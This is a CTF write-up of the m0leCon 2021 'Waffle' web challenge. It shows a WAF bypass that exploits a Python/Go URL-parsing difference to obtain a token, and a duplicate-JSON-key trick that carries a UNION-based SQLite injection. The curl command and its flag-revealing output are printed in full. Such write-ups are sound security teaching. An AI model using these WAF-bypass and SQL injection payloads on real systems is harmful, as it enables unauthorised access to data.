




# m0leCon 2021 CTF Teaser - Waffle

## Challenge

We needed to upgrade [this app](http://waffle.challs.m0lecon.it/) but no one here can code in Go. Easy fix: just put a custom waf in front of it.

[attachments_waffle.zip](attachments_waffle.zip)

### Metadata

- Tags: `web`
- Author: *Xato*
- Points: 165
- Solves: 28

## Solution

The site was a simple site, to interact with it we needed a token, however to get this token we need to somehow bypass the WAF. After that we have an obvious SQL injection in the source code of the application.

Our first idea was HTTP smuggling, however we noticed that the WAF creates new requests instead of proxying the request to the server, therefore we dropped this idea. Our idea was to find an error in the Python code and access the `/gettoken` endpoint that way.

We was thinking about two alternatives:

- Craft a normal request and modify the `promocode` in a way, that if won't be `==` to `FREEWAF` in Python, but it will be in case of Go.
- Craft a request, where the parameters are somehow encoded in the path therefore the `else` branch will forward it to application where it gets extracted.

```python
    if('gettoken' in unquote(path)):
        promo = request.args.get('promocode')
        creditcard = request.args.get('creditcard')

        if promo == 'FREEWAF':
            res = jsonify({'err':'Sorry, this promo has expired'})
            res.status_code = 400
            return res

        r = requests.get(appHost+path, params={'promocode':promo,'creditcard':creditcard})

    else:
        r = requests.get(appHost+path)
```

After a lot of fuzzing and time, we gave up on the first alternative and one of us found an issue in the GitHub page of Go [https://github.com/golang/go/issues/25192](https://github.com/golang/go/issues/25192).

After many trials we were able to get the token by making the following request: `/gettoken%3f;promocode=FREEWAF?creditcard=a`



We got the token: `LQuKU5ViVGk4fsytWt9C`.

With the token the next step was to exploit the SQL injection in the database. We found out quite easily if there are two `name` parameters in the JSON, the WAF will use the second meanwhile the application will use the first. This way the SQL injection mitigations of the WAF can be bypassed.

We dumped the entire table with a simple `OR 1` query shown on the picture.



Since we knew the application uses SQLite the next step was to union query, this with the data from `sqlite_master`. This way we learned that there is a table with name of `flag`.



We made a quick guess that if the table name is `flag` then the column name may be the same, therefore we issued the following request, and as it turned out it gave us the flag.



We can do the same with `curl`:

```bash
> curl -H 'Cookie: token=LQuKU5ViVGk4fsytWt9C' -X POST 'http://waffle.challs.m0lecon.it/search' --data-raw  "{\"name\": \"' OR 1 UNION SELECT flag, 1, 1, 1 FROM flag --\", \"name\": \"asd\"}"
[{"name":"Big","radius":25,"height":260,"img_url":"/img/large.jpg"},{"name":"Micro","radius":6,"height":100,"img_url":"/img/micro.jpg"},{"name":"Small","radius":12,"height":150,"img_url":"/img/small.jpg"},{"name":"Squared","radius":20,"height":200,"img_url":"/img/squared.jpg"},{"name":"Standard","radius":18,"height":200,"img_url":"/img/medium.jpg"},{"name":"ptm{n3ver_ev3r_tru5t_4_pars3r!}","radius":1,"height":1,"img_url":"1"}]
```

The flag is `ptm{n3ver_ev3r_tru5t_4_pars3r!}`.